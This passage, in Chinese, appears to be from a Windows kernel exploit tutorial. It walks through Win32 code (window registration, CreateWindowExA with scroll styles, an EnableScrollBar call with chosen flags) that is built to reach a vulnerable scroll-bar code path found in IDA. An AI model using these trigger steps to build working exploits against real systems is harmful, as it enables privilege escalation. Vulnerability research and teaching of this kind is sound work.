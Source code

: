 函数的作用就是设置滚动箭头啥的，我们这里只需要关注怎么通过代码才能到达漏洞点？既然是滚动条设定，那我们第一步肯定得创建一个窗口吧，所以第一步肯定是创建一个窗口，这一步相信大家都是很清楚的，创建窗口类，注册窗口，创建窗口一气呵成，这不是很简单么？所以我们火速写了下面几个片断

```
WNDCLASSEXA wc;

wc.cbSize = sizeof(WNDCLASSEX);
wc.style = 0;
wc.lpfnWndProc = DefWindowProcA;
wc.cbClsExtra = 0;
wc.cbWndExtra = 0;
wc.hInstance = GetModuleHandleA(NULL);
wc.hIcon = LoadIcon(NULL, IDI_APPLICATION);
wc.hCursor = LoadCursor(NULL, IDC_ARROW);
wc.hbrBackground = (HBRUSH)(COLOR_WINDOW + 1);
wc.lpszMenuName = NULL;
wc.lpszClassName = szClassName;
wc.hIconSm = LoadIcon(NULL, IDI_APPLICATION);

RegisterClassExA(&amp;wc)
```

当你写到 CreateWindowExA 函数时，发现那么多参数，肯定不能随便设置就到漏洞点吧，回顾上面IDA的分析，我们需要让wSBflags设置为0和3，并且wArrows不能为0，所以这里我们在 **EnableScrollBar** 函数中的实现就是对第二个参数进行设置，我们构造如下的片断

```
EnableScrollBar(
        hWnd, 
        SB_CTL | SB_BOTH, // wSBflags = 3 滚动条是滚动条控件,启用或禁用与指定窗口关联的水平和垂直滚动条上的箭头
        ESB_DISABLE_BOTH  // wArrows  = 3 禁用滚动条上的两个箭头
    );
```

既然 EnableScrollBar 函数设置如上，那么就意味着我们创建的窗口必须满足拥有滚动条控件，为了同时能操作水平和垂直滚动条，必须以某种方式创建具有这两个元素的滚动条控件，所以我们进行如下的构造

```
hWnd = CreateWindowExA(
    0,
    szClassName,
    0,
    SBS_HORZ | WS_HSCROLL | WS_VSCROLL, // 垂直加水平
    10,
    10,
    100,
    100,
    NULL,
    NULL,
    NULL,
    NULL
);
```

期间我们再加上ShowWindow和UpdateWindow两个函数确保我们的窗口可见
